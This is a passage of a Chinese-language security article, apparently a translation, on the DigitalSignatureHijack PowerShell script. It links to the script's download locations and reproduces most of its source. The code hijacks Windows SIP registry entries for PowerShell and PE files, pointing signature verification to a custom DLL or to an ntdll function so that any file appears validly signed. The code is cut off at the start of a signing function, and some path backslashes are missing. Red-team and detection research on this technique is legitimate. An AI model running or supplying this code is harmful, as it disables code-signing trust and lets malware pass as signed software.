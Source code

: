 执行ValidateSignaturePS命令将绕过验证，因此数字签名将显示为有效。

[![](https://p0.ssl.qhimg.com/t0133fb72fd46e7ae58.png)](https://p0.ssl.qhimg.com/t0133fb72fd46e7ae58.png)

**下载**

DigitalSignatureHijack脚本可以在以下地址下载：

[](https://gist.github.com/netbiosX/fe5b13b4cc59f9a944fe40944920d07c)[Digital Signature Hijack Public Gist](https://gist.github.com/netbiosX/fe5b13b4cc59f9a944fe40944920d07c)

[](https://github.com/netbiosX/Digital-Signature-Hijack)[https://github.com/netbiosX/Digital-Signature-Hijack](https://github.com/netbiosX/Digital-Signature-Hijack)

**源码**

```
&lt;#
    DigitalSignatureHijack v1.0
    License: GPLv3
    Author: @netbiosX
#&gt;
 
# Validate Digital Signature for PowerShell Scripts
 
function ValidateSignaturePS
`{`
        $ValidateHashFunc = 'HKLM:SOFTWAREMicrosoftCryptography' +'OIDEncodingType 0CryptSIPDllVerifyIndirectData'
 
        # PowerShell SIP Guid
 
        $PSIPGuid = '`{`603BCC1F-4B59-4E08-B724-D2C6297EF351`}`'
 
        $PSSignatureValidation = Get-Item -Path "$ValidateHashFunc$PSIPGuid"
 
        $NewDll = 'C:UsersUserDesktopSignature SigningBinariesMySIP.dll'
        $NewFuncName = 'AutoApproveHash'
        
        $PSSignatureValidation | Set-ItemProperty -Name Dll -Value $NewDll
        $PSSignatureValidation | Set-ItemProperty -Name FuncName -Value $NewFuncName
`}`
 
# Validate Digital Signature for Portable Executables
 
function ValidateSignaturePE
`{`
        $ValidateHashFunc = 'HKLM:SOFTWAREMicrosoftCryptography' +'OIDEncodingType 0CryptSIPDllVerifyIndirectData'
 
        # PE SIP Guid
 
        $PESIPGuid = '`{`C689AAB8-8E78-11D0-8C47-00C04FC295EE`}`'
 
$PESignatureValidation = Get-Item -Path "$ValidateHashFunc$PESIPGuid"
        
        $NewDll = 'C:WindowsSystem32ntdll.dll'
        $NewFuncName = 'DbgUiContinue'
        
        $PESignatureValidation | Set-ItemProperty -Name Dll -Value $NewDll
        $PESignatureValidation | Set-ItemProperty -Name FuncName -Value $NewFuncName
`}`
 
# Sign PowerShell Scripts with a Microsoft Certificate
 
function SignPS
```